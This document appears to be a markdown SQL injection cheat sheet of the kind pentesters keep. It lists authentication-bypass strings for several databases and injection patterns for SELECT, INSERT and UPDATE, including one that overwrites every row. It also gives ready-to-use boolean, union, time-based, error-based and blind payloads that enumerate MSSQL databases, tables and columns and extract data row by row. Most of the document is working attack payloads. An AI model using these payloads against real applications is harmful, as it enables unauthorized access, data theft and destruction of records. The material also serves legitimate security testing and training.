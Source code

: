 # SQL injection

## Login bypass

### MySQL

```
' or 1=1;#
' or 1=1 LIMIT 1;#
```

### PostgreSQL

```
' or 1=1;--
' or 1=1;/*
' or 1=1 LIMIT 1;--
```

### Oracle

```
' or 1=1--
' or 1=1 LIMIT 1--
```

## Injection types

### SELECT

```
SELECT * FROM accounts WHERE user = 'xxx' AND pass = 'yyy'

xxx' OR 1=1;--            #hides the condition on pass field behind a comment
xxx' OR 1=1 LIMIT 1;--    #hides the extra quote with a comment and limits the results to 1 match (can avoid simple SQLi detections)
```

### INSERT

```
INSERT INTO accounts (user, pass, info) VALUES ('xxx', 'yyy', 'zzz');

xxx');<commands>;--    #close the open sets of quotes and brackets, hide the duplicates behind inline comment
```

### UPDATE

```
UPDATE accounts SET info='xxx' WHERE user = 'yyy';

xxx';<commands>;--    #DANGEROUS! Hides the WHERE clause, all info fields in table will be set to "xxx"
yyy';<commands>;--    #update statement completes normally, then the injected commands will be executed
```

## Techniques

### Boolean based

Execute a query containing a valid parameter (such as an item ID) and concatenate to the instruction a comparison statement that will always be true or false.

```
<param>' and 1=1;    #returns the item matching <param>
<param>' and 1=0;    #returns nothing
<param>' or 1=1      #returns everything
```

If the first statement returns the expected value and the second statement returns nothing then the field or parameter are vulnerable

#### Payload variants

```
' and 'a'='a    #strings instead of numbers, note the missing quote at the end
' and "a"="a    #double quotes instead of single, note the missing quote at the end
') and 1=1;     #closed round bracket to exclude other conditions
') and 'a'='a'; #version with string comparison
```

### Union based

1. Find the number of columns: `' or 1=1 order by <col number>; --` increase the number of columns until you get an error. Pay also attention to how the output is ordered, this allows you to match a column number to its output field.
2. Join data: `' or 1=1 union all select <fields> from <table>; --` since the UNION operation requires that both tables have the same column number, add NULL values for the missing columns in the select if the operation fails.

### Time based

Execute a query that results in a boolean statement (true/false). Use a time delay command to stop execution if the result is True. Useful to display boolean values since error based data disclosure doesn't work with them.

```
');if (IS_MEMBER ('db_owner') = 0) WAITFOR DELAY '0:0:5';--
```

This technique can also be used to verity the existence of an SQL injection vulnerability in the same way as the Boolean attack. If the application freezes for the given amount of time after executing the query then the field or parameter are vulnerable

```
<value>'; WAITFOR DELAY '0:0:5'; --
```

### Error based

If the field you're injecting is not used to display data it is possible to make the database print data by causing a cast error i.e. casting strings to integers. This allows you to read one value in a table at time, to print more values filter by row number.

```
'); select CAST(@@version as int);--
```

#### Print database list

```
');SELECT CAST (name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY name ASC) AS rownumber,name FROM master..sysdatabases) AS foo WHERE rownumber = <row>;--
```

#### Print tables in database

```
');SELECT CAST (name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY name ASC) AS rownumber,name FROM <db>..sysobjects WHERE xtype = 'U') AS foo WHERE rownumber = <row>;--
```

#### Enumerate columns

```
');SELECT CAST (foo.name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY archive..syscolumns.name ASC) AS rownumber,<db>..syscolumns.name AS name FROM <db>..syscolumns, <db>..sysobjects WHERE <db>..syscolumns.id=<db>..sysobjects.id AND <db>..sysobjects.name='<table>') AS foo WHERE rownumber = <row>;--
```

#### Select data from column in nth row

Insert the columns you need to read in the inner select, in this way it wil be possible to select by row number and read the content of the column one row at time.

```
');SELECT CAST (foo.col1 AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY id ASC) AS rownumber,<db>..<table>.<column> AS col1 FROM <db>..<table>) AS foo WHERE rownumber = <nth>;--
```

### Blind queries

Allows to retrieve information about the db structure and its contents by querying the db using boolean statements such as "does this table exists?" in combination with an error or time based query. In this way we can verify the result of query by checking if an error is returned or the execution is paused by the given time.

Time based queries are your best bet because error strings may be intercepted by error control mechanisms on the backend while sleep instructions are executed as standard SQL instructions.

These examples are written in MSSQL format with time based queries but can be easily converted in any SQL dialect.

#### Generic query

```
'; IF (<statement>) <wait or error instruction>;--
```

#### Check if table exists

```
'; IF ((select count(name) from sys.tables where name = '<table>')=1) WAITFOR DELAY '0:0:10';--
```

#### Check if column exists

```
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = '<table>' and c.name = '<column>')=1) WAITFOR DELAY '0:0:10';--
```

#### Check if value exists

```
'; IF ((select count(<column>) from <table> where <column> = '<value>')=1) WAITFOR DELAY '0:0:10';--
```

#### Guess values

It is possible to discover a given value by using the like condition to check one character at time until we find the complete string. For example to find the user table we proceed as follows

```
'; IF ((select count(name) from sys.tables where name like 'u%')=1) ...
'; IF ((select count(name) from sys.tables where name like 'us%')=1) ...
'; IF ((select count(name) from sys.tables where name like 'use%')=1) ...
'; IF ((select count(name) from sys.tables where name like 'user%')=1) ...
```

This technique can be applied to any object in the database including tables, column names and values
